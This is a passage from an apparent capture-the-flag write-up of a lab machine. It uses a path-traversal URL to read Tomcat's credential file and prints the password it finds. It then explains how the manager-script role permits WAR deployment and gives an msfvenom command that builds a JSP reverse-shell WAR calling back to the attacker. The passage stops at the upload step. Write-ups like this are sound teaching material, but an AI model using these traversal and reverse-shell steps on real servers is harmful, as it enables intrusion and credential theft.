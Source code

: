 * require creds to access and through an error
* in the error 

	   You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp. 
	   
    * error indicate the file that contains the tomcat manager creds and i have `LFI` that means i can read that file.
    
* i try to google for tomcat file path and found [here](https://packages.debian.org/sid/all/tomcat9/filelist)

* file path is `/usr/share/tomcat9/etc/tomcat-users.xml`

	`http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml`
	
	  <role rolename="admin-gui"/>
	  <role rolename="manager-script"/>
	  <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
	  
#### creds

tomcat:$3cureP4s5w0rd123!

* but creds not worked for manager because the `username="tomcat"` user role is `roles="admin-gui"` not `roles="manager-gui"` which means I can’t access the manager webapp but can access to `host-manager` that found in default Tomcat page with `manager`

### host-manager

* using `tomcat:$3cureP4s5w0rd123!` login successful.
* there is **noting** and can't upload war file from here

### war file

* The tomcat user also have another role `roles="manager-script"`.

    * **manager-script** is allow access to the text-based web service located at /manager/text.
    * that means user `tomcat` can access to `manager` in test based
    * that means i can still upload war file from text based manager
    
* form text based manager user tomcat can upload war file using `deploy` command, found in [doc](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)

#### generate reverse shell war file

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=4141 -f war > shell.war`
```
Payload size: 13398 bytes
Final size of war file: 13398 bytes
Saved as: shell.war
```

#### upload shell
